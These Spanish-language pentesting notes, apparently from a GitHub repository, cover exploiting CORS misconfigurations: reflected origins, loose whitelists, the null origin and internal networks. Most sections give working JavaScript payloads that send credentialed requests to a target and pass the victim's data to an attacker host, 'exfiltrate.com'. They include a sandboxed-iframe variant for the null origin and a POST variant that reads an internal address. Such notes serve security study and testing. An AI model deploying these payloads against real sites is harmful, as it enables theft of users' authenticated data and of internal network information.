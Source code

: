 ### Contexto

- La mayoría de los ataques en CORS requieren que la header **Access-Control-Allow-Credentials** esté seteada en **true** para poder tener un contexto de autenticación de la víctima.
- De lograrse un ataque teniendo en cuenta el caso anterior saliendo desde un servicio controlado por el atacante la vulnerabilidad es similar al CSRF pero más severa.
- Dependiendo de la configuración específica del CORS el atacante puede potencialmente interactuar con la aplicación impersonando a la victima y ejecutando acciones sobre su comportamiento.


Si la header Access-Control-Allow-Credentials no está seteada, el atacante no podrá continuar con los ataques antes mencionados. Sin embargo, **una mala configuración de CORS en una aplicación web interna puede permitir a un atacante exfiltrar información no pública**

---

## Arbitrary Origin Reflection

La header Access-Control-Allow-Origin contiene los origenes que tienen permitido baypassear la SOP. El header puede ser seteado con un wildcard (*) que resulta en el permiso de todos los origenes.Por motivos de seguridad **EL WIDLCARD NUNCA DEBE SER SER COMBINADO CON Access-Control-Allow-Credentias seteado a true**

Podemos identificarla si vemos que en la cabecera Access-Control-allow-Origin de la response se refleja la cabeceras Origin o Referer de la request.

Si esto último se da y la header Access-Control-Allow-Credentials está seteada en true podemos explotarla.

### Explotación:

Creamos un payload en un sitio controlado por nosotros donde se indique el recurso a exfiltrar por medio de un get, que se haga con credenciales, el sitio al que van a ser reenviados los datos y luego un send de manera automática. Y se lo hacemos llegar a la víctima.

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>

## Improper Origin Whitelist

Esta explotación se basa en un error de configuración en la implementación de whitelist de los trusted origin. Requiere nuevamente el header Access-Control-Allow-Credentials seteado en true.

Imaginamos que el sitio *api.vulnerable.com* quiere permitir las request de todos los subdominios de *vulnerable.com*. Al validar el origen solo se fijará en que el mismo termine en *vulnerable.com* sin importar qué venga detrás. 

Esto permite a un atacante crear una web llamada **attackervulnerable.com** y cumplir con los requisiros del filtro de la whitelist.

La explotación es, entonces, exáctamente igual a la de arbitrary origin reflection.


## Trusted Null Origin.

La explotación se da cuando la cabecera de la response Access-Control-Allow-Origin está seteada en null y la header Access-Control-Allow-Credentials está seteada a true.

**EN LA PRACTICA LA CABECERA ACCESS-CONTROL-ALLOW-ORIGIN NUNCA DEBE ESTAR SETEADA EN NULL**. Sin embargo, los programadores suele confundirse con el sigificado de la misma pensando que es un "bloqueador total".

### Explotación.
La explotación es muy similar a las anteriores pero dentro de un **iframe**. De esta manera no es el sitio el que está haciendo la request sino el objeto (iframe), de esta manera el origen es nulo.

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>"></iframe>

## Targeting The local network

Este ataque no requiere la cabecera Access-Control-Allow-Credentials.

En el caso de que el header Access-Control-Allow-Origin esté seteado con un wildcard podemos buscar exfiltrar apis o sitios internos de la infraestructura si la victima se encuentra conectada desde dentro de la red de la organización.

No es buena idea exfiltrar una página mediante el método GET porque la URL no es ilimitada y el contenido puede muy facilmente superar la cantidad de caracteres disponibles. Es mejor, en el caso de un exfiltrado total, usar el método POST y guardar todo en un parámetro.
Otra forma de hacerlo, mediante el método GET es filtrar el resultado por los datos que pueden sernos importantes mediante la funcion getElementById:

### Ejemplo de payload en GET:

        <script>
            var xhr = new XMLHttpRequest();
            xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
            xhr.withCredentials = true;
            xhr.onload = () => {
              // parse the response
        	  var doc = new DOMParser().parseFromString(xhr.response, 'text/html');
        
        	  // exfiltrate only the interesting element
        	  var msg = encodeURIComponent(doc.getElementById('secret').innerHTML);
              location = 'https://exfiltrate.com/log?data=' + btoa(msg);
            };
            xhr.send();
        </script>

### Ejemplo de POST

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://172.16.0.2/data', true);
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
        xhr.onload = () => {
          var exfilData = btoa(xhr.response);
          var postData = 'data=' + encodeURIComponent(exfilData);
    
          var xhr2 = new XMLHttpRequest();
          xhr2.open('POST', 'http://exfiltrate.com/log', true);
          xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
          xhr2.send(postData);
        };
    
        xhr.send();
    </script>

